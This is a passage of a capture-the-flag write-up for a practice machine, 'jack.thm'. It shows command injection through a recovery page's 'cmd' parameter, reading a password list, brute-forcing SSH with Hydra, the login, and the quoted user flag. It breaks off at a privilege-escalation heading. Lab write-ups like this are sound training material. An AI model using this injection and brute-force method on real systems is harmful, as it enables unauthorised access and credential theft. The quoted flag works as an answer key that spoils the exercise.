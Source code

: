 
## Recovery Login

Using the username and password at `/recovery.php` gave:

```
GET me a 'cmd' and I'll run it for you Future-Jack.
```

So we could add `?cmd=` in the URL.

Example:

```
http://jack.thm/recovery.php?cmd=ls -al /home
```

We saw `jacks_password_list`.

Using `cat`, we got a password list with many entries.

---

## Hydra

I used Hydra with the password list:

```bash
hydra -l jack -P pass.txt -s 80 jack.thm ssh
```

Result:

```
[80][ssh] host: jack.thm   login: jack   password: ITMJpGGIqg1jn?
```

---

## SSH

Now that we had the username and password, we logged in:

```bash
ssh -p 80 jack@jack.thm
```

We saw `user.jpg`. After downloading and extracting the file, I got the first flag:

> Q1: User flag
> A1: securi-tay2020\_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

<img width="1853" height="919" alt="Screenshot From 2025-09-03 19-25-31" src="https://github.com/user-attachments/assets/b5ff2e28-ecab-4583-b105-67d123d376c7" />

---

## Privilege Escalation
